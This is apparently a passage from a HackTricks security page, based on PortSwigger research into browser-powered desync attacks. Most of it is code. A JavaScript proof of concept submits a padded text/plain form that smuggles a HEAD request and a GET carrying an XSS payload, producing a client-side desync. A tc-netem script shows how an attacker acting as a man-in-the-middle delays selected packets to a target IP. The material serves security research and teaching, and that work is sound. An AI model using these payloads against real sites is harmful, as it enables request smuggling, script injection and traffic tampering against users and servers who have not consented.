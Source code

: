 From the client-side it looks like a regular client-side desync using the HEAD gadget, aside from the request padding:

```javascript
let form = document.createElement('form')
form.method = 'POST'
form.enctype = 'text/plain'
form.action = 'https://x.psres.net:6082/redirect?'+"h".repeat(600)+ Date.now()
let input = document.createElement('input')
input.name = "HEAD / HTTP/1.1\r\nHost: x\r\n\r\nGET /redirect?<script>alert(document.domain)</script> HTTP/1.1\r\nHost: x\r\nFoo: bar"+"\r\n\r\n".repeat(1700)+"x"
input.value = "x"
form.append(input)
document.body.appendChild(form)
form.submit()
```

On the attacker system performing the blind MITM, the delay was implemented using tc-NetEm:

```bash
# Setup
tc qdisc add dev eth0 root handle 1: prio priomap

# Flag packets to 34.255.5.242 that are between 700 and 1300 bytes
tc filter add dev eth0 protocol ip parent 1:0 prio 1 basic \
match 'u32(u32 0x22ff05f2 0xffffffff at 16)' \
and 'cmp(u16 at 2 layer network gt 0x02bc)' \
and 'cmp(u16 at 2 layer network lt 0x0514)' \
flowid 1:3

# Delay flagged packets by 61 seconds
tc qdisc add dev eth0 parent 1:3 handle 10: netem delay 61s
```

## **References**

* All the information of this post was taken from [https://portswigger.net/research/browser-powered-desync-attacks](https://portswigger.net/research/browser-powered-desync-attacks)

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
